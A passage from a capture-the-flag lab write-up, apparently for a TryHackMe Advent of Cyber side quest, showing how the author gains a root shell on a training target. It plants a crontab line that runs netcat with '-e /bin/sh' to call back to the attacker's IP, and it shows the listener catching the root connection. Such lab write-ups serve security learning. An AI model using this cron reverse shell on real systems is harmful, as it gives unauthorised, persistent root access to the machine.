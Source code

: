```sh
* * * * * sleep 40; /root/test-eth0.sh >/dev/null 2>&1
* * * * * sleep 50; /root/test-eth0.sh >/dev/null 2>&1

* * * * * /usr/bin/nc 10.13.8.186 4444 -e /bin/sh
# 
```
Now we wait...
```bash
┌──(tokugero㉿kali)-[~/…/rooms/aoc2023/task2/emux-master]
└─$ nc -lvnp 4444      
listening on [any] 4444 ...
connect to [10.13.8.186] from (UNKNOWN) [10.10.232.34] 58730

ls
---
index.html
test-eth0.sh

ls /
---
bin
dev
emux
etc
home
lib
lib32
linuxrc
lost+found
media
mnt
opt
proc
root
run
sbin
sys
tmp
usr
var

whoami
---
root
```
By golly we did it! Using the same techniques I wasn't able to break out of the container proper as of the time of this writing, but if there were a flag to be had here it would be so sweet.

Editor's note: This was apparently a great hint moving into SQ3! Well done again, THM.
It turns out that the port `23` was unused by anything, and simply `socat` forwarding to the emux QEMU nested container in case an attacker just wanted to waltz on in.

This was a great ending to this side quest and it's got me itching for more.